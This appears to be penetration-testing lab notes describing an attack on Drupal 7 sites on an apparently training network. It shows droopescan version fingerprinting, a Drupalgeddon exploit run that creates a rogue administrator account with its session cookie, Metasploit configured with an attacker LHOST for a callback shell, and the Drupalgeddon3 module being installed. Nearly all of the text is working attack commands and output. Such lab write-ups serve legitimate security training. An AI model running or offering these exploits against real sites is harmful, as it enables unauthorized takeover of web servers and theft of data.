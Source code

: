 sudo pip3 install droopescan
droopescan scan drupal -u drupal-qa.inlanefreight.local

[+] Possible version(s):
    7.30

sudo pip3 install droopescan
droopescan scan drupal -u drupal-dev.inlanefreight.local


### Drupalgeddon

https://www.exploit-db.com/download/34992
python2.7 34992.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node

SESS7480629f2a60f8ea10a4824d0c05b9ed=1IWySveI9e3uN7q-k6xK2Zx6JJO8EYuiTIn1CVPQjps

### Drupalgeddon 3

sudo msfconsole -q
use exploit/multi/http/drupal_drupageddon
set rhosts 10.129.205.173
set VHOST drupal-qa.inlanefreight.local
set drupal_session SESS7480629f2a60f8ea10a4824d0c05b9ed=j5d_-oxDPEgmzSjimzNZzHqO9lEQBgDwW--l2mNoDug;
set DRUPAL_NODE 1
set LHOST 10.10.15.142
show options 
exploit

searchsploit Drupalgeddon3
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Drupal < 7.58 - 'Drupalgeddon3' (Authenticate | php/webapps/44542.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authenticate | php/webapps/44557.rb
---------------------------------------------- ---------------------------------
Shellcodes: No Results

sudo cp /usr/share/exploitdb/exploits/php/webapps/44557.rb /root/.msf4/modules/

updatedb

sudo mkdir /root/.msf4/modules/exploits/
sudo mkdir /root/.msf4/modules/exploits/php/
sudo mkdir /root/.msf4/modules/exploits/php/webapps/

sudo cp /usr/share/exploitdb/exploits/php/webapps/44557.rb /root/.msf4/modules/exploits/php/webapps/
